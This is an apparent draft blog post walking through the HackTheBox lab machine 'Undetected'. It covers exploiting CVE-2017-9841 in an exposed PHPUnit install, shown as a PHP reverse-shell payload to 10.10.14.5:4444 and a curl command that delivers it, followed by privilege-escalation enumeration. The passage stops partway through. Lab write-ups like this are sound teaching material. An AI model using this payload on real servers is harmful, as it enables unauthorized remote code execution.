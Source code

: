 ```yaml
---
title: "HackTheBox: \"Undetected\" Walkthrough"
date: 2022-04-25T18:08:18+02:00
tags: ['hackthebox', 'ctf']
slug: "hackthebox-undetected-walkthrough"
categories: ["HackTheBox Walkthrough"]
sidebar: false
#summary: "custom summary"
draft: true
---
```


I think this is one of my favourite machines on HackTheBox. It took quite some
time, especially because I was following a false trail for a long time - but after
being back on track, it was a really fun challenge.

## Foothold

We start by visiting the landing page. Only static content, but with
one interesting link to `store.djewelry.htb` - which is another site and
powered by PHP. A directory scan quickly reveals a reachable `vendor/` dir,
which even has directory listing enabled. From there, we navigate to
`composer/installed.json` and inspect the installed packages and their versions.
We find version 5.6.2 of phpunit, which is susceptible for CVE-2017-9841:

> Util/PHP/eval-stdin.php in PHPUnit before 4.8.28 and 5.x before 5.6.3 allows
remote attackers to execute arbitrary PHP code via HTTP POST data beginning with
a "<?php " substring, as demonstrated by an attack on a site with an exposed /vendor
folder, i.e., external access to the /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php URI.

## User

In order to avoid character escaping issues, we create a new file with name "data" and the payload:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"); ?>
```
... send it to the server via curl ...
```plain
$ curl http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d @data
```
... and have a reverse shell - but for now only as "www-data" user.
After looking around a bit, there is no obvious way forward, so we need to ask
LinPEAS, which points us to an unusual cronjob:
```plain
* 3 * * * root /var/lib/.main
```
We also note that there are two users with the same uid:
```plain
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
```
Furthermore, this user also seems to have some mails:
```plain
17793      4 -rw-rw----   1 steven   mail          966 Jul 25  2021 /var/mail/steven
17793      4 -rw-rw----   1 steven   mail          966 Jul 25  2021 /var/spool/mail/steven
```
Last but not least, there is this file:
```plain
/var/backups/info
```
